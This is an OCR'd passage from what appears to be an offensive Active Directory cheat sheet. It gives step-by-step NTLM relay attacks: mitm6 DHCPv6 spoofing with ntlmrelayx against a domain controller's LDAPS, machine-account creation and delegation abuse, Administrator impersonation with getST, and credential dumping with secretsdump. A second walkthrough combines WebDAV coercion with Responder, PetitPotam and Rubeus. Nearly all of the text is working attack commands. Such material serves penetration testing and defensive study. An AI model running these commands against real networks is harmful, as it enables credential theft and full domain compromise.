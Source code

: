 > ntlmrelayx relays the captured credentials to LDAP on the domain controller, uses that to create a new machine account, print the account's name and password and modifies the delegation rights of it.

```powershell
git clone https://github.com/fox-it/mitm6.git 
cd /opt/tools/mitm6
pip install .

mitm6 -hw ws02 -d lab.local --ignore-nofqnd
# -d: the domain name that we filter our request on (the attacked domain)
# -i: the interface we have mitm6 listen on for events
# -hw: host whitelist

ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad
ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad --add-computer
# -ip: the interface you want the relay to run on
# -wh: WPAD host, specifying your wpad file to serve
# -t: the target where you want to relay to

# now granting delegation rights and then do a RBCD
ntlmrelayx.py -t ldaps://dc01.lab.local --delegate-access --no-smb-server -wh attacker-wpad
getST.py -spn cifs/target.lab.local lab.local/GENERATED\$ -impersonate Administrator  
export KRB5CCNAME=administrator.ccache  
secretsdump.py -k -no-pass target.lab.local  
```

#### Relaying with WebDav Trick

> Example of exploitation where you can coerce machine accounts to authenticate to a host annd combine it with Resource Based Constrained Delegation to gain elevated access.

**Requirement**:
*  WebClient service

**Exploitation**:
* Disable HTTP in Responder: `sudo vi /usr/share/responder/Responder.conf`
* Generate a Windows machine name: `sudo responder -I eth0`, e.g: WIN-UBNW4FI3AP0
* Prepare for RBCD against the DC: `python3 ntlmrelayx.py -t ldaps://dc --delegate-access -smb2support`
* Discover WebDAV using [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus): `GetWebDAVStatus.exe 10.0.0.4`
* Trigger the authentication to relay to our nltmrelayx: `PetitPotam.exe WIN-UBNW4FI3AP0@80/pentestlab 10.0.0.4`
* Use the created account to ask for a service ticket: 
    ```ps1
    .\Rubeus.exe hash /domain:purple.lab /user:WVLFLLKZ$ /password:'iUAL)l<i$;UzD7W'
    .\Rubeus.exe s4u /user:WVLFLLKZ$ /aes256:E0B3D87B512C218D38FAFDBD8A2EC55C83044FD24B6D740140C329F248992D8F /impersonateuser:Administrator /msdsspn:host/pc1.purple.lab /altservice:cifs /nowrap /ptt
    ls \\PC1.purple.lab\c$
    # IP of PC1: 10.0.0.4
    ```
